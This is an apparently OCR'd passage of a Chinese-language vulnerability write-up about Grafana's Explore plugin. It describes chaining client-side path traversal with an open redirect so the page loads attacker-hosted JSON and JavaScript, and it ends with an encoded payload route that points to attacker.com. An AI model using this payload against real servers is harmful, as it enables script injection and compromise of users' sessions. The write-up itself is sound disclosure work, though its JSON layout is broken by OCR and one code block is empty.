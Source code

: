 "enabled"  
:  
true  
,  
  
"pinned"  
:  
true  
,  
  
"autoEnabled"  
:  
true  
,  
  
"module"  
:  
"/modules/..../plugin-app.js"  
,  
//js file to load  
  
"baseUrl"  
:  
"public/plugins/grafana-lokiexplore-app"  
,  
  
"info"  
:  
{  
  
"author"  
:  
{  
  
"name"  
:  
"Grafana"  
  
            ...  
  
}  
  
}  
  
    ...  
  
}  
/a/plugin-app/explore加载该文件，并执行参数中提供的 javascript "module"。  
  
/a/plugin-app/explore容易受到客户端路径遍历的攻击，这使我能够在服务器上加载任何路由，而不是/api/plugin-app/settings。  
  
这使我可以加载开放重定向，从而获取包含我想要的任何 JavaScript 文件的恶意 JSON。  
  
基本上，我搭建了自己的服务器，并准备好了所有必要的 JS 和 JSON 文件。我只需要托管一个像这样的 JSON 文件：  
```
```  
  
并加载此路由，/a/..%2f..%2f..%2fpublic%2f..%252f%255Cattacker.com%252f%253Fp%252f..%252f..%23/explore利用客户端路径遍历和开放重定向。  
  